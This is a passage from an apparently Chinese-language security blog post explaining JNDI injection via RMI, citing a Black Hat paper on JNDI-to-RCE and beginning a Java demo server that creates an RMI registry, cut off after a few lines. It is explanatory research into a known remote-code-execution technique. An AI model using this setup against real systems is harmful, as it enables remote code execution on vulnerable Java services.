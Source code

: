 请求端以lookup请求上述绑定的RMI服务即可。其处理过程引用https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

![image-20200204164815153](/images/jndi-with-rmi-20200209/image-20200204164815153-1255889.png)

## 0x02 原理

### JNDI with RMI DEMO

为了更好的说明，以下面的代码为例

```java
package train.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class Server {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
```